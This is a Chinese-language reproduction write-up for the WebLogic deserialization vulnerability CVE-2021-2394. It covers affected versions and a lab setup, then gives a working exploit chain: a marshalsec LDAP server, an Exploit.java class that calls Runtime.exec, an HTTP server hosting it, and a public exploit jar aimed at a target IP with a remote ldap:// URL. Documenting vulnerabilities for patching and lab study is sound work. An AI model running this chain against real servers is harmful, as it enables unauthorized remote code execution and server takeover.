


# Weblogic 二次反序列化漏洞 CVE-2021-2394

## 漏洞描述

Oracle官方发布了2021年7月份安全更新通告，通告中披露了WebLogic组件存在高危漏洞，攻击者可以在未授权的情况下通过IIOP、T3协议对存在漏洞的WebLogic Server组件进行攻击。成功利用该漏洞的攻击者可以接管WebLogic Server。

这是一个二次反序列化漏洞，是CVE-2020-14756和CVE-2020-14825的调用链相结合组成一条新的调用链来绕过weblogic黑名单列表。

## 漏洞影响

```
Oracle WebLogic Server 10.3.6.0.0
Oracle WebLogic Server 12.1.3.0.0
Oracle WebLogic Server 12.2.1.3.0
Oracle WebLogic Server 12.2.1.4.0
Oracle WebLogic Server 14.1.1.0.0
```

## 环境搭建

系统环境：window10 系统

weblogic 版本：12.2.1.3，官网下载



在当前目录启动，启动后访问：



## 漏洞复现

下载 marshalsec 利用 marshalsec 开启 JNDI 服务：

```
https://github.com/mbechler/marshalsec # 需要自己编译
mvn clean package –DskipTests

https://github.com/RandomRobbieBF/marshalsec-jar # 可以直接使用
```

创建 Exploit.java，通过 javac 编译得到 Exploit.class：

```
public class Exploit {

    static {
        System.err.println("Pwned");
        try {
            String cmds = "calc";
            Runtime.getRuntime().exec(cmds);
        } catch ( Exception e ) {
            e.printStackTrace();
        }
    }
}
```

在同目录下使用 python 开启一个 http 服务，并使用 marshalsec 开启 JNDI 服务：

```
python -m http.server 8000
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8000/#Exploit" 8087
```

使用exp进行复现：

- https://github.com/lz2y/CVE-2021-2394/releases/tag/2.0

```
java -jar CVE_2021_2394.jar 192.168.31.3 7001 ldap://192.168.3.35:8087/Exploit
```


## 修复方式

当前官方已发布受影响版本的对应补丁，建议受影响的用户及时更新官方的安全补丁。链接如下：

- https://www.oracle.com/security-alerts/cpuapr2021.html